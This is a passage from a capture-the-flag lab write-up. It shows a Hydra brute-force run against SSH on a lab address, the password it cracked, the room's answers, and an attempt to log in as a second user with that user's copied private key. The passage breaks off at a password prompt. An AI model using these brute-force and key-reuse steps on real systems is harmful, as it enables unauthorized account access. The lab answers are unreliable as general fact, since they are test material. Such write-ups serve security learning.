 ```bash

└─$ hydra -l jan -P rockyou.txt ssh://10.10.52.207                                                                                                                                                                                         
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-10 18:34:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.52.207:22/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344223 to do in 1358:22h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344063 to do in 2134:32h, 16 active
[ERROR] Can not create restore file (./hydra.restore) - Permission denied
[22][ssh] host: 10.10.52.207   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-10 18:41:11

```

We found our password.

Password: `armando`

### What service do you use to access the server(answer in abbreviation in all caps)?

We used this service before to crack the password. It is `SSH` on Port 22. 

Answer: `SSH`

### Enumerate the machine to find any vectors for privilege escalation

Okay we need to find other vectors. We connect via `ssh` into Jans account and check if we find something there.

If we navigate a bit we can find the folder from `kay`. There is a `.bak` file which we cant open. But there is also a private key hidden (Use `ls-la`). 

### What is the name of the other user you found(all lower case)?

Answer: `kay`

### If you have found another user, what can you do with this information?

We copy the private key and try to connect via ssh in his account.
```bash
└─$ ssh kay@10.10.52.207 -i id_rsa                                                                                                                                                                                                         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
kay@10.10.52.207's password: 
```

